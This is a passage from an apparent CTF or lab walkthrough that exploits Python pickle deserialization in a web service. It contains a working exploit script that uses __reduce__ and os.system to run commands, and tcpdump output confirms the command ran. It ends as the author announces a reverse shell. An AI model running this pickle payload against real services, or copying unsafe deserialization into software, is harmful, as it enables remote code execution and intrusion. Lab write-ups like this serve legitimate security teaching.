 If now in the text field I write "hello" and now try to use the /checklist function, I can perfectly read my message which saved in the remote server. 

    # curl -u 'lucas:SuperSecretPassword123!' 'http://192.168.0.44:1337/checklist' -d "check=5d41402abc4b2a76b9719d911017c592" 
    hello 

Now we need to test with serialization to run commands. We need to create a Python script for this, get your keyboards ready. 

    #coding:utf-8 

    import os 
    import cPickle 
    import hashlib 
    import requests 
    class CommandExecute(object): 
        def __reduce__(self): 
            return (os.system, ('ping -c 2 192.168.0.17',)) 

    convert_data = cPickle.dumps(CommandExecute()) # The message that will be sent to the server with the command. 
    convert_crypt = hashlib.md5(convert_data).hexdigest() 
    send_requests = requests.post('http://192.168.0.44:1337/', data={"story":convert_data, "submit":"Submit+Query"}, auth=("lucas", "SuperSecretPassword123!")) 
    check_requests = requests.post('http://192.168.0.44:1337/checklist', data={"check":convert_crypt}, auth=("lucas", "SuperSecretPassword123!")) 
    print(check_requests.text) 

When we run the script, the server returns ICMP queries to us, so the command was successfully executed by the server. We are on the right track. 

    # tcpdump -i wlan0 icmp -n 
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode 
    listening on wlan0, link-type EN10MB (Ethernet), capture size 262144 bytes 
    14:03:53.499955 IP 192.168.0.44 > 192.168.0.17: ICMP echo request, id 492, seq 1, length 64 
    14:03:53.500017 IP 192.168.0.17 > 192.168.0.44: ICMP echo reply, id 492, seq 1, length 64 
    14:03:54.528969 IP 192.168.0.44 > 192.168.0.17: ICMP echo request, id 492, seq 2, length 64 
    14:03:54.529072 IP 192.168.0.17 > 192.168.0.44: ICMP echo reply, id 492, seq 2, length 64 
    14:03:55.553021 IP 192.168.0.44 > 192.168.0.17: ICMP echo request, id 492, seq 3, length 64 
    14:03:55.553110 IP 192.168.0.17 > 192.168.0.44: ICMP echo reply, id 492, seq 3, length 64 
    14:03:56.577171 IP 192.168.0.44 > 192.168.0.17: ICMP echo request, id 492, seq 4, length 64 
    14:03:56.577245 IP 192.168.0.17 > 192.168.0.44: ICMP echo reply, id 492, seq 4, length 64 
    14:03:57.578394 IP 192.168.0.44 > 192.168.0.17: ICMP echo request, id 492, seq 5, length 64 
    14:03:57.578461 IP 192.168.0.17 > 192.168.0.44: ICMP echo reply, id 492, seq 5, length 64 

# Reverse Shell 

Let's change the script to do a reverse shell. I will be using a pentestmonkey command to do my reverse shell. 
